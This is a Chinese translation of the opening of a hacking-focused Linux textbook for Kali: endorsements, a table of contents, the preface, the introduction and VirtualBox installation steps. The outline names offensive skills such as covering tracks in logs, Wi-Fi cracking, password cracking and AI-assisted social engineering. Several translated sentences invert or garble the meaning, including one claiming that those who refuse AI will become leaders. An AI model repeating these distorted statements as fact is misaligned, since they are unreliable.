# 黑客 Linux 基础入门（第2版）：在 Kali 中入门网络、脚本与安全

在 KALI 中上手网络、脚本编写与安全


# 对《黑客 Linux 基础》的赞誉

“无论你是刚起步，还是正在向专家水平迈进，获得这本书可能是你提升网络安全技能所能做的最佳事情之一。”

SANDRA HENRY-STOCKER, 《网络世界》(NETWORK WORLD)

“书中提供的信息甚至可以帮助普通用户更轻松地熟悉 Linux 操作系统，而不会被更复杂的与安全相关的话和用法所困扰。虽然我们都能从关注安全中获益，但《黑客 Linux 基础》可能会激励下一批新兴技术爱好者成为明天的安全之星。”

TIM EVERSON, 道德黑客网络 (THE ETHICAL HACKER NETWORK)

“《黑客 Linux 基础》具有实用价值。它探索和使用 Linux 系统的这种快捷高效（quick-and-dirty）的方法大受欢迎。”

JESSE SMITH, 《发行版观察周刊》(DISTROWWATCH WEEKLY)

“这是一本为初级渗透测试人员和 SOC 分析师编写的简洁、文笔良好且高效的 Linux 介绍书籍……对于任何渴望成为红队或蓝队成员的人来说，这都是一本理想的 Linux 入门书，阅读它非常值得。”

CYBRARY

“如果你刚开始学习计算机科学，并想快速上手 Linux 和 Unix 类操作系统，通过这本书的学习将让你迅速领先于你的同学。”

GREG LADEN, GREG LADEN 的博客 (GREG LADEN’S BLOG)

## 在 KALI 中上手网络、脚本编写与安全

作者：OccupyTheWeb


名称：OccupyTheWeb，作者。

分类：LC QA76.9.A25 (电子版) | LC QA76.9.A25 0325 2018 (纸质版) |

“无论你是刚起步，还是正在向专家水平迈进，获得这本书可能是你提升网络安全技能所能做的最佳事情之一。”

书中提供的信息甚至可以帮助普通用户更轻松地熟悉 Linux 操作系统，而不会被更复杂的与安全相关的话和用法所困扰。虽然我们都能从关注安全中获益，但《黑客 Linux 基础》可能会激励下一批新兴技术爱好者成为明天的安全之星。”

《黑客 Linux 基础》具有实用价值。它探索和使用 Linux 系统的这种快捷高效（quick-and-dirty）的方法大受欢迎。”

“这是一本为初级渗透测试人员和 SOC 分析师编写的简洁、文笔良好且高效的 Linux 介绍书籍……对于任何渴望成为红队或蓝队成员的人来说，这都是一本理想的 Linux 入门书，阅读它非常值得。”

“如果你刚开始学习计算机科学，并想快速上手 Linux 和 Unix 类操作系统，通过这本书的学习将让你迅速领先于你的同学。”

OccupyTheWeb (OTW) 是网络安全训练网站 https://hackers-arise.com 的创始人笔名。他在技术行业工作了超过20年。

Artur Zielinski 是一个主要关注攻击性安全（OSINT, SCADA）的渗透测试员。

- 前言 ............................................................................ xix
- 致谢 ................................................................ xxi
- 引言 ....................................................................... xiii
序言 ... xix
致谢 ... xxi
引言 ... xiii
- 配置 Kali ................................. xxxii
- 通过 Windows 的 Linux 子系统 (WSL) 安装 Kali ... xxxii

## 1 基础入门 ... 1

### 介绍性术语与概念 ........... 1
### Kali 概览 ................................... 3
### 终端 ....................................... 3
### Linux 文件系统 ............................ 3
### Linux 基础命令 ........................ 4
### 使用 `pwd` 确认位置 ...................... 5
### 使用 `whoami` 检查登录状态 ............ 5
### 遍历 Linux 文件系统 .............. 6
### 获取帮助 ................................... 7
### 使用 `man` 手册页 ....... 8
### 查找内容 ................................... 8
### 使用 `locate` 搜索 ............................ 9
### 使用 `where` 查找二进制文件 ............... 9
### 使用 `which` 查找 PATH 变量中的二进制 ... 9
### 使用 `find` 执行强大的搜索 ... 10
### 使用 `grep` 过滤 ............................... 11
### 修改文件和目录 ............ 12
### 创建文件 ................................... 12
### 创建目录 .......................... 14
### 复制文件 ................................. 14
### 重命名文件 ................................. 15
### 删除文件 ................................. 15
### 删除目录 .......................... 15
### 现在去玩吧！ ................................. 16
### 练习题 ....................................... 16

## 2 文本处理

### 查看文件 ................................. 18
### 查找头部 (Head) ................................. 18
### 查找尾部 (Tail) ................................. 19
### 行编号 ............................ 20
### 使用 `grep` 过滤文本 ........................ 21
### 使用 `sed` 查找和替换. ................. 21
### 使用 `more` 和 `less` 查看文件 ................. 23
### 使用 `more` 控制显示 ............. 23
### 使用 `less` 显示与过滤 ............. 24
### 总结 ....................................... 25
### 练习题 ...................................... 25

## 3 网络分析与管理

### 使用 `ifconfig` 分析网络 ................. 28
### 使用 `netstat` 和 `ss` 查看网络统计 ................. 29
### 使用 `iwconfig` 检查无线网络设备 ................. 30
### 修改你的网络信息 ................. 31
### 分配新的 IP 地址 ....................... 31
### 修改网络子掩码和广播地址 ................. 32
### 伪造 MAC 地址 ........................ 32
### 从 DHCP 服务器分配新 IP 地址 ................. 33
### 操作域名系统 (DNS) ................. 33
### 使用 `dig` 检查 DNS ........................... 34
### 修改 DNS 服务器 ......................... 35
### 映射自己的 IP 地址 ................. 36
### 总结 ....................................... 36
### 练习题 ...................................... 37

## 4 安装与移除软件


- 使用 `apt` 处理软件 ................. 40

- 搜索软件包 .......................... 40

- 安装软件 ................................. 40

- 移除软件 ............................... 41

- 更新软件包 ............................... 42

- 升级软件包 .............................. 42

- 向 `sources.list` 文件添加软件库. . 43

- 使用基于 GUI 的安装程序 ................. 45

- 使用 `git` 安装软件 ................. 47

- 总结 ....................................... 48

- 练习题 ...................................... 48

# 5 控制文件和目录权限 49

- 不同类型的用户 ....................................... 50

- 授予权限 ....................................... 50

- 将所有权授予单个用户 ....................................... 50

- 将所有权授予组 ....................................... 51

- 检查权限 ....................................... 52

- 更改权限 ....................................... 53

- 使用十进制法更改权限 ....................................... 54

- 使用 UGO 更改权限 ....................................... 54

- 为新工具赋予 Root 执行权限 ....................... 55

- 使用掩码（Masks）设置更安全的默认权限 ....................... 56

- 特殊权限 ....................................... 57

- 通过 SUID 授予临时 Root 权限 ....................... 57

- 授予 Root 用户组权限 SGID ....................... 58

- 过时的粘滞位（Sticky Stick） ....................................... 58

- 特殊权限、权限提升与黑客 ....................... 59

- 总结 ....................................... 59

- 练习题 ....................... 60

# 6 进程管理 61

- 查看进程 ....................................... 62

- 按进程名过滤 ....................................... 63

- 使用 `top` 查找最消耗资源的进程 ....................................... 64

- 管理进程 ....................................... 64

- 使用 `nice` 更改进程优先级 ....................... 64

- 杀死进程 ....................................... 66

- 在后台运行进程 ....................................... 67

- 将进程移至前台 ....................................... 68

- 调度进程 ....................................... 68

- 总结 ....................................... 69

- 练习题 ....................... 70

# 7 管理用户环境变量 71

- 将默认 Shell 更改为 Bash ....................................... 72

- 查看和修改环境变量 ....................................... 74

- 查看所有环境变量 ....................................... 74

- 过滤特定变量 ....................................... 75

- 更改会话变量值 ....................................... 75

- 使变量更改永久生效 ....................................... 76

- 更改你的 Shell 提示符 ....................................... 76

- 更改你的 PATH ....................................... 78

- 添加到 PATH 变量 ....................................... 78

- 如何避免向 PATH 变量添加内容 ....................................... 79

- 创建自定义变量 ....................................... 79

- 总结 ....................................... 80

- 练习题 ....................... 80

## 8 BASH 脚本 81

- Bash 快速入门 ................................................................................ 82

- 你的第一个脚本：“Hello, Hackers-Arisel” ............................................................ 84

- 设置执行权限 ..................................................................................... 85

- 运行 HelloHackersArise ................................................................................ 85

- 使用变量和用户输入增加功能 ................................................................ 86

- 你的第一个黑客脚本：扫描开放端口 ........................................................ 87

- 我们的任务 ..................................................................................................................... 88

- 一个简单的扫描器 ....................................................................................................... 89

- MySQL 扫描器的改进 ................................................................. 90

- 常用 Bash 内置命令 ................................................................................ 92

- 总结 ........................................................................................................ 93

- 练习 ....................................................................................................... 93

## 9 压缩与归档 95


### 什么是压缩？ 96

### 将文件打包 (`Tar`) 96

### 压缩文件 98

### 使用 `gzip` 压缩 98

### 使用 `bzip2` 压缩 99

### 使用 `compress` 压缩 99

### 创建存储设备的位级或物理拷贝 100

### 总结 101

### 练习 101

## 10 文件系统与存储设备管理 103

### 设备目录 `/dev` 104

### Linux 如何表示存储设备 105

### 磁盘分区 105

### 字符设备与块设备 107

### 使用 `lsblk` 和 `fdisk` 列出块设备及信息 107

### 挂载与卸载 108

### 手动挂载存储设备 109

### 使用 `umount` 卸载 109

### 监控文件系统 109

### 获取挂载磁盘的信息 109

### 检查错误 110

### 总结 111

### 练习 111

## 11 日志系统 113

### `journalctl` 工具 114

### 日志优先级与设施 115

### `journalctl` 查询 116

### 使用 `journalctl` 隐藏你的踪迹 118

### 禁用日志 120

### 总结 121

### 练习 121

## 12 使用与滥用服务 123

### 启动、停止、重启服务 124

### 使用 Apache Web 服务器创建 HTTP 服务器 124

### 从 Apache 开始 124

### 编辑 `index.html` 文件 125

### 添加一些 HTML 126

### 观察发生了什么 126

### OpenSSH 与树莓派 127

### 设置树莓派 128

### 组装树莓派 128

### 配置摄像头 129

### 开始监视 130

### 从 MySQL/MariaDB 中提取信息 130

### 启动 MySQL 或 MariaDB 130

### 与 SQL 交互 131

### 设置密码 131

### 访问远程数据库 133

### 连接到数据库 133

### 探索数据库表 134

### 检查数据 135

### 总结 135

### 练习 136

## 13 变得安全与匿名 137


## 14 理解与检查无线网络 151

### Wi-Fi 网络 152

### 基础无线命令 152

#### 使用 airc-ng 进行 Wi-Fi 测试 155

### 蓝牙连接 158

### 蓝牙的工作原理 158

### 扫描与侦察

### 总结 162

### 练习 162

## 15 管理 Linux 内核与可加载模块 163

### 什么是内核？ 164

### 检查内核版本 165

### 使用 sysctl 进行内核调优 165

### 管理内核模块 167

### 使用 modinfo 获取更多信息 168

### 使用 modprobe 添加和移除模块 168

### 插入和移除内核模块 169

### 总结 170

### 练习 170

## 16 使用任务调度实现自动化 171

### 定期运行事件或任务 172

### 调度备份任务 174

### 使用 crontab 调度扫描器 175

### crontab 快捷命令 176

### 使用 rc 脚本在启动时运行任务 176

### Linux 运行级别 (Runlevels) 177

### 向 rc.d. 添加服务 177

### 通过图形界面向引导添加服务 178

### 总结 179

### 练习 179

## 17 黑客 Python 脚本基础 181

### 添加 Python 模块 182

### 开始使用 Python 编写脚本 183

### 变量 184

### 注释 186

### 函数 187

### 列表 188


## 目录

- 模块 ................................................................................................ 189
- 面对象编程 (OOP) ............................................................... 189
- Python 中的网络通信 ................................................................ 190
- 构建 TCP 客户端 ................................................................................ 190
- 创建 TCP 监听器 ................................................................................ 192
- 字典、控制语句和循环 ................................................................ 193
- 字典 ................................................................................................ 193
- 控制语句 ...................................................................................... 194
- 循环 ................................................................................................ 195
- 改进我们的黑客脚本 ................................................................ 196
- 异常与密码破解器 ....................................................... 197
- 总结 .................................................................................... 199
- 练习 .......................................................................................... 200
- 协作是关键 ................................................................................................ 202
- AI 领域的主要参与 ................................................................................................................. 203
- 在网络安全中使用 AI ....................................................................................................... 203
- 利用 AI 进行社会工程攻击 ................................................................................ 205
- 使用 AI 编写 Bash 脚本 ................................................................................... 206
- 总结 ................................................................................................................................................... 207
- 练习题 .......................................................................................................................................... 207

# 前言

欢迎阅读全新的更新后的《黑客 Linux 基础》（Linux Basics for Hackers）第二版！

首先，我要感谢所有的读者，让第一版取得了如此巨大的成功。《黑客 Linux 基础》不仅是亚马逊上最畅销的 Linux书籍，而且亚马逊上最畅销的操作系统类书籍，远超所有 Windows 10 和 11 相关书籍。我深胜感激。我认为人们喜欢这本书。

《黑客 Linux 基础》的第一版写于 2017 年，并于 2018 年出版。Linux 整体特别是 Kali Linux 已经发生了许多变化。通过第二版，我们的目标是将内容更新到现状（2025年），展示让在网络安全环境中使用 Linux 变得简单的新工具和技术。

你将注意到的主要变化之一是在所有需要 root 权限的命令之前使用 `sudo`。在第一版中，我直接登录 root 账户并在那里进行操作。作为一个攻击者，但作为一个学习者，除非绝对必要，否则你应该避免登录 root 账户。在本版中，为了给从我书中学习 Linux 的读者提供安全保障，我在每个需要权限的命令前都加上了 `sudo`。

Linux 的软件工具偶尔会变化。在过去的几年里，这种情况发生了，例如 `systemd` 工具取代了 SysV 工具。这些工具控制着 Linux 中的系统和服务管理器。它们影响着 Linux 中启动和停止服务的方式。你会注意到一些变化，例如我们启动服务的方式从 `service` (SysV) 命令过渡到 `systemctl` (systemd) 命令。两者都可以工作，但 Linux 正在快速向后者过渡，前者可能会在不久后被弃用（或停止），因此现在适应这种新风格是最好的。

Kali Linux 已将其默认 shell 转换为 Z shell (`zsh`)。如果你是初学者，我认为你应该继续使用 bash shell (Bourne-again shell)，因为几乎所有其他 Linux 系统都使用 `bash` 而不是 Z shell。幸运的是，Kali 的开发者在 GUI 应用程序 `kali-tweaks` 中为我们提供了简单的选项切回 `bash` shell。

我们还更新了关于蓝牙和 Linux 日志函数的章节，因为这两者在间隔期间都发生了显著变化。

最后，第 18 章讨论了人工智能在我们行业中的未来。人工智能不会让你过时；它会让你变得更好。拥抱并使用它。那些拒绝学习使用 AI 的人将成为我们领域的下一批领导者。

我希望你对这本书的喜爱比第一版更深。

# 致谢

如果没有几位关键人物的合作，这本书是无法完成的。

首先，我要感谢 No Starch Press 出版人 Bill Pollock，对这本书的信任和支持。

其次，我要感谢我的技术审查员 Artur Zielinski 的辛勤努力，确保了书中技术内容的准确性。任何剩余的错误或遗漏完全是我的责任。

最后，我要感谢并感谢 No Starch Press 的所有专业人士，他们为这本书的完成和上市付出了努力。谢谢。

# 引言

黑客技术是 21 世纪最重要的技能之一！我做出这句话并不轻率。在最近几年里，每天早晨的新闻标题都印证了这一点。国家相互间谍以获取秘密，网络犯罪分子窃取数十亿美元，数字蠕虫向受害者索要赎金，对手影响彼此的选举，战斗方击毁对方的设施。以乌克兰和俄罗斯之间的网络战为例。这些事件都是黑客的杰，而我们才开始理解他们在这个日益数字化的世界中的力量。

在通过 Null-Byte、Hackers Arise (`https://www.hackers-arise.com`) 以及美国军队和情报机构的几乎每个分支（包括 NSA、DIA、CIA 和 FBI）接触数万渴望成为黑客的人之后，我决定写这本书。这些经历告诉我，许多渴望成为黑客的人对 Linux 没有经验，这种经验的缺乏是他们通往专业道路的主要障碍。几乎所有的黑客工具都是在 Linux 上编写的，因此在成为一名丰富的黑客之前，你需要一些基本的 Linux 技能作为前提。我写这本书是为了帮助你克服这一障碍。

黑客技术是 IT 领域的一种精英职业。因此，它要求对 IT 概念和技术有广泛且深入的理解。在最基础的层面，Linux 是要求的。如果你想让黑客和信息安全成为你的职业，我强烈建议你投入精力理解它。


这本书并不是为经验丰富的黑客或管理员设计的。相反，它是为那些想要开启黑客、网络安全和渗透测试这条兴奋道路的人准备的。它也不旨在作为关于 Linux 的完整著作，而是作为进入这些世界的起点。通过 Linux 的核心知识，它扩展到了 bash 和 Python 的一些基础脚本。在适当的情况下，我使用黑客示例来教你 Linux 原理。

在本引言中，我们将了解信息安全领域伦理黑客的增长，我将带你通过安装虚拟机的过程，这样你就可以在不干扰当前运行的操作系统的情况下安装 Kali Linux。

# 本书内容

在前几个章节中，你将熟悉 Linux 的基础。第 1 章将让你习惯文件系统和终端，并提供一些基础命令。第 2 章将向你展示如何操作文本以查找、检查和修改软件及文件。

在第 3 章中，你将管理网络。你将扫描网络、查找连接信息，并通过掩盖网络和 DNS 信息来伪装自己。

第 4 章教你添加、删除和更新软件，以及如何保持系统精简。在第 5 章中，你将操作文件和目录权限以控制谁可以访问什么。你还将学习一些权限提升技术。

第 6 章教你如何管理服务，包括启动和停止进程以及分配资源以给你更大的控制力。第 7 章中，你将管理环境变量以获得最佳性能、便利甚至隐蔽性。你将查找和过滤变量，更改 `PATH` 变量并创建新的环境变量。

第 8 章向你介绍 bash 脚本编写，这是任何严肃黑客的必修之路。你将学习 bash 的基础，并编写一个用于扫描可能渗透端口的脚本。

第 9 章和第 10 章将为你提供一些必要的文件系统管理，教你如何压缩和存档文件以维护你的系统。

清理、复制整个存储设备，并获取文件和已连接磁盘的信息。

后续章节将深入探讨黑客主题。在第 11 章中，你将使用并操纵日志系统来获取目标的活动信息并掩盖自己的踪迹。第 12 章将展示如何使用和滥用三类 Linux 服务器：Apache Web 服务器、OpenSSH 和 MySQL。你将创建一个 Web 服务器，构建一个远程视频间谍器，并学习数据库及其漏洞。第 13 章将向你展示如何通过代理服务器、Tor 网络、虚拟网络（VPN）和加密电子邮件来实现安全和匿名化。

第 14 章涉及无线网络。你将学习基础的网络命令，然后破解 Wi-Fi 访问点，并检测和连接蓝牙信号。

第 15 章将深入 Linux 本身，从高层视角查看内核的工作原理以及驱动程序如何绑定以交付恶意软件。在第 16 章中，你将学习基本的调度技能，以自动化你的黑客脚本。第 17 章将教你 Python 概念，并将编写两个黑客工具：一个用于监控 TCP/IP 连接的扫描器和一个简单的密码破解器。第 18 章将探索黑客攻击与人工智能的交叉领域，引入基本概念并演示 AI 如何协助网络安全。

## 什么是伦理黑客？

随着近年来信息安全领域的增长，伦理黑客领域（也称为白帽（好人）黑客）也经历了巨大的增长。伦理黑客是一种尝试渗透和利用系统的实践，以发现其弱点并加强安全防护。我将伦理黑客领域分为两个主要部分：为合法的信息安全公司进行渗透测试，以及为你所属国家的军事或情报机构工作。这两个都是快速增长的领域，需求非常旺。

## 渗透测试

随着组织安全意识的增强以及安全泄露的成本呈指数级增长，许多大型组织开始签约安全服务。这些关键安全服务之一就是渗透测试。渗透测试本质上是一种合法的、受委托的任务，旨在演示公司网络和系统的漏洞。

通常，组织会进行漏洞评估，以发现其网络、操作系统和服务中的潜在漏洞。我们强调“潜在”二字，是因为这种漏洞扫描包含了大量的误报（被识别为漏洞但实际上并非漏洞的内容）。渗透测试员的角色是尝试黑入或渗透这些漏洞。只有这样，组织才能知道漏洞是否真实，并决定投入时间和金钱来修复漏洞。

## 军事与间谍

地球上几乎每个国家都参与网络间谍活动和网络战争。乌克兰的网络冲突将网络战争推向了每个人意识的前沿，因为全球黑客都支持乌克兰保持自由的努力。`https://www.hackers-archive.com` 的黑客在这场网络战争中发挥了关键作用。在局势紧张时期，只需浏览新闻标题就能看到政府如何利用网络活动来监视，甚至攻击军事和工业系统。

随着时间的推移，黑客攻击在这些军事和情报收集活动中的影响将变得更加重要。想象未来的战争，黑客获取对手的作战计划，并瘫痪他们的电网、石油炼油厂和水系统。在这样的世界里，黑客成为国家国防的关键组成部分。

## 为什么黑客使用 Linux

那么，为什么黑客使用 Linux 而不是其他操作系统？主要是因为 Linux 通过几种不同的方法提供了高得多的控制。

### Linux 是开源的

与 Windows 不同，Linux 是开源的，这意味着操作系统的源代码对你开放。因此，你可以随心所欲地更改和操纵它。如果你试图让系统以其设计初衷的方式运行，能够操纵源代码是至关重要的。

### Linux 是透明的

为了进行有效的攻击，你必须了解并理解你的操作系统，以及在很大程度上理解你正在攻击的操作系统。Linux 是完全透明的，这意味着我们可以看到并操纵它的所有工作部分。

Windows 则并非如此。微软努力让人们难以知道“引擎盖下”发生了什么，而在 Linux 中，你有一束聚光灯直接照射在操作系统的每一个组件上。这种特性使得 Linux 更加高效。

### Linux 提供细粒度控制

Linux 是细粒度的。这意味着你对系统拥有几乎无限的控制权。在 Windows 中，你只能控制微软允许你控制的内容。在 Linux 中，一切都可以通过终端进行控制，无论是在最微的层面还是最宏的层面。此外，Linux 还允许使用任何脚本语言进行简单高效的。

### 大多数黑客工具都是为 Linux 编写的

超过 90% 的黑客工具都是为 Linux 的。当然也有例外，例如 `Cain and Abel` 和 `Wikto`，但这些例外证明了规律。即使当 `Metasploit` 或 `nmap` 这样的黑客工具被移植到 Windows 时，并不是所有功能都能从 Linux 传输。

### 未来属于 Linux/Unix

这听起来可能是一个激进的陈述，但我坚信信息技术的未来属于 Linux 和 Unix 系统。微软在 20 世纪 80 年代和 90 年代有过辉煌，但它的增长正在放缓。

自从互联网开始以来，Linux/Unix 因其稳定性、可靠性和健壮性一直是 Web 服务器的首选操作系统。即使是今天，Linux/Unix 也被用于三分之二的 Web 服务器并主导市场。路由器、交换机和其他设备的嵌入式系统几乎都使用 Linux 内核，虚拟化世界也由 Linux 主导，`VMware` 和 `Citrix` 都是构建在 Linux 内核之上的。

如果你认为计算的未来在于平板和平等移动设备（`iOS` 是 Unix，`Android` 是 Linux），那么超过 80% 的移动设备都在运行 Unix。微软 Windows 仅占移动设备市场的 7%。这是你想要的方式吗？

## 下载 Kali Linux

在开始之前，你需要在计算机上下载并安装 Kali Linux。这是我们在整本书中使用的 Linux 发行版。Linux 由 `Linus Torvalds` 在 1991 年作为 Unix 的替代品首次开发。由于它是开源的，志愿者开发者编写内核、工具和应用程序。这意味着没有公司实体监督开发，因此惯例和标准往往缺失。

Kali Linux 是由 Offensive Security 开发的黑客操作系统，基于 Kali Debian 的一个发行版。有许多 Linux 发行版，Debian 是最好的之一。你可能熟悉 Ubuntu 作为一个流行的 Linux 桌面发行版。Ubuntu 也是基于 Debian 构建的。其他发行版包括 Red Hat、CentOS、Mint、Arch 和 SUSE。尽管它们共享相同的 Linux 内核（控制 CPU、内存等的操作系统核心），但每个发行版都有自己的工具、应用程序以及用于图形界面（`GNOME`、`KDE` 等）用于不同的用途。因此，这些 Linux 发行版每一个看起来和感觉都不同。

你可以从 `https://www.kali.org` 下载 Kali。

如果你更喜欢在运行 Windows 的计算机上通过适用于 Linux 的子系统 (`WSL`) 安装 Kali，请跳转到第 xxxvii 页的“通过适用于 Linux 的子系统安装 Kali”。从首页，将鼠标悬停在页面顶部的下载（`Downloads`）链接上，并点击“下载 Kali Linux”。你将面临多个选择。选择正确的下载至关重要。在表格左侧，你将看到镜像名称，这是该链接下载的版本名称。例如，你可能会看到一个名为 `Kali 64Bit` 的镜像名称，这意味着它是完整的 Kali Linux，适用于 64 位系统（大多数现代系统都使用 64 位的 Intel 或 AMD CPU）。

要确定你的系统运行的是什么类型的 CPU，请前往“控制面板 > 系统和安全”，它那里会列出相关信息。如果你的系统是 64 位的，请下载并安装 64 位的完整 Kali（而不是 `Light`、`Lxde` 或任何其他替代方案）。如果你运行的是带有 32 位 CPU 的旧电脑，你将需要安装 32 位版本，它出现在页面的后部分。


你可以选择通过 `HTTP` 或 `Torrent`（种子）下载文件。`Kali` 将像任何其他下载一样直接下载到你的系统中，并放置在“下载”文件夹中。`Torrent` 下载是许多文件共享站点使用的点点下载。你需要一个 `Torrent` 客户端来使用此选项。`Kali` 将下载到 `Torrent` 客户端存储下载内容的文件夹中。

其他类型的 CPU 还有其他版本，例如许多移动设备中常用的 `ARM` 架构。如果你正在使用树莓派、平板电脑或其他移动设备，请通过向下滚动到“下载 ARM 镜像”并点击“`Kali` ARM 镜像”来下载并安装 `ARM` 架构的 `Kali`。（手机用户可能更喜欢 `NetHunter`。）

现在你应该已经下载了 `Kali`，但在安装任何内容之前，我想谈谈虚拟机。通常，对于初学者来说，安装 `Kali` 虚拟机镜像并在 `VirtualBox` 或 `VMware Workstation` 等虚拟机中运行，是学习和实践的最佳解决方案。

## 虚拟机

虚拟机 (`VM`) 技术允许你从某一个硬件（如你的笔记本电脑或台式机）运行多个操作系统。这意味着你可以继续运行你熟悉的 `Windows` 或 `macOS` 操作系统，然后在该操作系统内部运行一个 `Kali` 虚拟机。你不需要覆盖现有的系统就可以学习 `Linux`。

`VMware`、`Oracle`、`Microsoft` 以及其他供应商提供了许多虚拟机应用程序。它们都非常出色，但在这里我将向你如何下载并安装 `Oracle` 免费的 `VirtualBox`。

## 安装 VirtualBox

你可以在 `https://www.virtualbox.org` 下载 `VirtualBox`。点击页面顶部的“下载”链接，并为你计算机当前的操作系统选择 `VirtualBox` 软件包，该系统将托管 `VirtualBox` 虚拟机。确保下载最新版本。下载完成后，点击安装文件，你将看到一个熟悉的安装向导。点击“下一步”，你将看到图 1 所示的自定义设置界面。



图 1：自定义设置对话框

> 注意：这些说明是针对 `Windows` 编写的。如果你使用的是 `Mac`，过程可能会略有不同，但你应该能够跟上。

从此屏幕开始，只需点击“下一步”。继续点击直到你进入“网络接口”界面，然后点击“是”。

点击“安装”开始该过程。在此过程中，你可能会多次提示安装设备软件。这些是你的虚拟机通信所需的虚拟网络设备。对每一项都点击“安装”。

安装完成后，点击“完成”。

## 设置你的虚拟机

现在让我们开始你的虚拟机。`VirtualBox` 在安装后应该会自动打开（如果没有，请手动打开它），你将看到图 2 所示的 `VirtualBox` 管理器。


## 2：VirtualBox 管理器

由于我们将创建一个新的 `Kali Linux` 虚拟机，请点击顶部的“新建”。这会打开虚拟机对话框。

为你的机器命名（任何名称都可以，我只是简单地使用了 `Kali`），并从“类型”下拉菜单中选择 `Kali`。最后，从第三个下拉菜单中选择 `Debian (64-bit)`（除非你正在使用 `Kali` 的 32 位版本，在这种情况下，请选择 `Debian 32-bit` 版本）。点击“下一步”，你将看到一个选择你想为此虚拟机分配多少内存（RAM）的屏幕。

根据经验，我不建议使用超过系统总内存的 25%。这意味着，如果你为物理系统或主机系统安装了 4GB，那么请为你的虚拟机选择 1GB；如果你的物理系统上有 16GB，那么请选择 4GB（或 4096MB）。你给虚拟机分配的内存越多，它运行得越好越快，但也取决于你可能同时运行的其他虚拟机。当虚拟机空闲时，它们不会使用内存，但它们会占用硬盘空间。

点击“下一步”，你将到达“硬盘”屏幕。选择“创建硬盘”并点击“创建”。你应该建议使用哪种硬盘文件类型。选择建议的默认值 `VDI`。

在下一个屏幕中，你可以决定正在创建的硬盘是动态分配还是固定大小。如果你选择“动态分配”，它只会在需要时占用空间。点击“下一步”，你将到达选择为虚拟机分配硬盘空间的屏幕。如果你选择“动态分配”，它不会在开始时占用所有空间。选择硬盘空间（见图 3）。

## 硬盘

- 创建一个虚拟硬盘

- 大小 4.00 MB - 25.00 GB

- 预留所有

- 不添加硬盘

图 3：分配硬盘空间

默认是 8GB。我通常建议分配 20GB 到 25GB。记住，如果你选择动态分配，它只有在需要时占用空间，但在你关闭虚拟机后它会占用硬盘空间。点击“创建”，你就准备绪了！

## 在虚拟机上安装 Kali


图 4：欢迎界面

`VirtualBox` 管理器随后会要求你找到磁盘。你已经下载了带有 `.iso` 扩展名的镜像，它应该在你的下载文件夹中（点击右侧的文件夹图标所示）。



图 5：选择启动磁盘

然后点击“启动”。恭喜，你已经在虚拟机上安装了 `Kali`！

## 设置 Kali

`Kali` 现在将打开图 6 所示的屏幕，提供多种启动选择。对于初学者，我建议使用图形化安装。使用键盘导航菜单。

如果你在 `VirtualBox` 中安装 `Kali` 时遇到错误，可能是因为你没有在系统的 `BIOS` 中启用虚拟化。每个系统及其 `BIOS` 略有不同，因此请咨询你的制造商或在网上搜索适用于系统和 `BIOS` 的解决方案。此外，在 `Windows` 系统上，你可能需要禁用任何竞争性的虚拟化软件，如 `Hyper-V`。



图 6：选择安装方法

`Kali` 将要求你选择语言。确保你选择你最熟悉的语言语言，然后点击“下一步”，选择你的位置，点击“继续”，并选择你的键盘布局。

当你点击“继续”时，`VirtualBox` 将开始检测硬件和网络适配器的过程。只需等待它完成。最后，你将看到图 7 所示的需要你配置网络的屏幕。



图 7：输入主机名

第一项要求你输入主机的名称。你可以为它命名任何你喜欢的，但我保留了默认的 `kali`。

下一步



图 8：选择密码

